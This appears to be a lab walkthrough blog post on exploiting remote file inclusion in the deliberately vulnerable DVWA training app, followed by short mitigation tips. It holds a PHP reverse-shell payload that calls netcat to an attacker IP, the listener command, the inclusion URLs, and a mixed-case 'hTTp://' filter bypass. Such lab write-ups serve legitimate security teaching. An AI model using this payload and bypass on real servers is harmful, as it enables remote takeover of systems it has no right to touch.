 ```yaml
---
layout: post
title: Dam Vulnerable Web App Remote File Inclusion
---
```


Exploiting the Dam Vulnerable Web App

# LOW
<?php
passthru("nc -e /bin/sh 10.0.2.15 8888"); 
?>

save as reverse.txt otherwise it will execute on your machine.

check that you can access it on your local machine.
service apache2 start

http://localhost/reverse.txt

nc -vv -l -p 8888

important to include http://

10.0.2.4/dvwa/vulnerabilities/fi/?page=http://10.0.2.15/reverse.txt

now we have reverse shell, possibly have to put ? on end of txt if it doesn’t work.

# MEDIUM

Doing the same steps as the easy one, we see that it doesn’t work.
But if we change the lowercase t’s to uppercase it bypasses it.
http://10.0.2.4/dvwa/vulnerabilities/fi/?page=hTTp://10.0.2.15/reverse.txt

Looking at the code 
    $file = str_replace("http://", "", $file);
    $file = str_replace("https://", "", $file); 
It is filtering out http:// and https:// .

# HIGH

High stops us from including any page but include.php .

# Ways of mitigating file inclusion

Prevent remove file inclusion
* Disable allow_url_fopen and allow_url_include
* Edit the files in /etc/php5/cgi/php.ini and set to off.

Prevent local file inclusion
* Use static file inclusion
